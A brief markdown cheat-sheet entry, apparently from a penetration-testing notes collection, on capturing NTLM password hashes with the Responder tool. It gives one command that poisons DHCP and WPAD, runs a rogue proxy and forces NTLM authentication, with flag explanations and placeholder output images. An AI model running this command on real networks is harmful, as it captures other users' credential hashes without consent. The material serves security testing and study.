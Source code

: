 # Capturing Hashes with responder

## Usage

```bash
responder -I eth0 -dwPv
```
- -I = Interface
- -d = DHCP (will inject WPAD server in DHCP response)
- -w = WPAD (starts WPAD rogue proxy server)
- -P = ProxyAuth (Force NTLM authentication)
- -v = verbose

## Output

![Responder main screen](image.png)
![Responder Capturing Hashes](image.png)